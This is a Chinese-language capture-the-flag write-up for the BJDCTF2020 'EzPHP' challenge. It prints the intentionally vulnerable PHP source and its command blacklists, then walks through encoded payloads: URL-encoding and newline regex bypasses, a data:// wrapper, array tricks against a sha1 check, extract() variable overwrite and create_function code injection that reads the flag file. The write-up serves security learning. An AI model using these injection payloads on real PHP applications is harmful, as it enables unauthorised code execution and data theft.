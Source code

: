 # \[BJDCTF2020]EzPHP

### \[BJDCTF2020]EzPHP

## 考点

* `$_SERVER` 获取HTTP传入参数的脆弱性
* `preg_match`脆弱性
* PHP伪协议bypass 字符串相同限制
* &#x20;create\_function创建匿名函数
* PHP7 取反bypass代码执行

## wp

F12给了提示，`base32`解码得到`1nD3x.php`

<div data-full-width="true">

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

访问得到源码

{% code overflow="wrap" lineNumbers="true" fullWidth="true" %}
```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```
{% endcode %}

<mark style="background-color:red;">第一个</mark>`preg_match`在第15行

`$_SERVER['QUERY_STRING']`返回请求的参数和内容，访问`http://ip:port/1nD3x.php?shana=1&passwd=2`会返回`shana=1&passwd=2`，请求的参数有黑名单

<mark style="background-color:blue;">绕过</mark>`$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过

<mark style="background-color:red;">第二个</mark>`preg_match`在第20行

GET请求的file参数不包含http或https

<mark style="background-color:red;">第三个</mark>`preg_match`在第21行

GET请求的debu参数必须是aqua\_is\_cute且不是aqua\_is\_cute

<mark style="background-color:blue;">绕过</mark>`preg_match`在非`/s`模式下，会忽略末尾的%0a，所以末尾加上%0a即可

`file=padding&debu=aqua_is_cute`

`%66%69%6c%65=%70%61%64%64%69%6e%67&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a`

<mark style="background-color:red;">第四个</mark>`preg_match`在第29行

$\_REQUEST获取所有GET和POST传入的参数和值，并以数组形式返回。

比如POST请求`http://ip:port/?a=1&d=4 POST b=2`会返回`array(3) { 'a' => string(1) "1" 'd' => string(1) "4" 'b' => string(1) "2" }`要求请求的值不含有英文字符

<mark style="background-color:blue;">绕过</mark>$\_REQUEST获取的参数默认POST优先级大于GET，所以POST再传入`file=1&debu=2`



<mark style="background-color:red;">第34行</mark>`if`语句要求`file_get_contents($file)`的内容必须为`debu_debu_aqua`

<mark style="background-color:blue;">绕过</mark>这个有两种方式绕过，一个是`php://input` 加POST `debu_debu_aqua` ，很明显不行

另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`

%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a



<mark style="background-color:red;">第38行</mark>`if`语句要求传入的shana和passwd值不同且sha1相同

<mark style="background-color:blue;">绕过</mark>用数组绕过

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32`

这里不需要再POST参数，因为GET传的是数组，<mark style="background-color:red;">第四个</mark>`preg_match`的$value也是个数组，`preg_match`遇到数组会报错

然后`extract($_GET["flag"]);`存在变量覆盖



<mark style="background-color:red;">第五个</mark>`preg_match`在第45行 i不区分大小写 s视为单行，匹配换行符 D让$总是匹配字符串的末尾

$arg有黑名单，$code不能由纯英文数字组成，必须形如var\_dump print\_r

这里使用变量覆盖对$code和$arg赋值

```
$code('', $arg);
```

这种形式就是create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码

```php
create_function('$a,$b', $arg)

eval(
\000lambda_1($a,$b){
    $arg
}
)
```

$arg的黑名单有pi \* sess head 根据<mark style="background-color:purple;">无参RCE</mark>的思路能用的只剩get\_defined\_vars()

根据代码执行还可以用取反

所以在本题就是code=create\_function  arg=}var\_dump(get\_defined\_vars());//

或者arg=}(\~%8F%97%8F%96%91%99%90)();//

```
eval(
\000lambda_1(){
    }var_dump(get_defined_vars());//
}
)
```

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}var_dump(get_defined_vars());//`

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

读取rea1fl4g.php

`readfile('rea1fl4g.php')`取反

{% code overflow="wrap" lineNumbers="true" %}
```
http://31e9b523-a95b-4c3a-8bd6-0a322f1d383f.node4.buuoj.cn:81/1nD3x.php?%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}(~%8D%9A%9E%9B%99%96%93%9A)((~%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

file=1&debu=2
```
{% endcode %}

## 小结

1. `$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过
2. create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码
3.  伪协议绕过字符串限制，一个是`php://input` 加POST `debu_debu_aqua` ，

    另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`
4. `preg_match`在非`/s`模式下，会忽略末尾的%0a
5. `preg_match`传入数组会报错
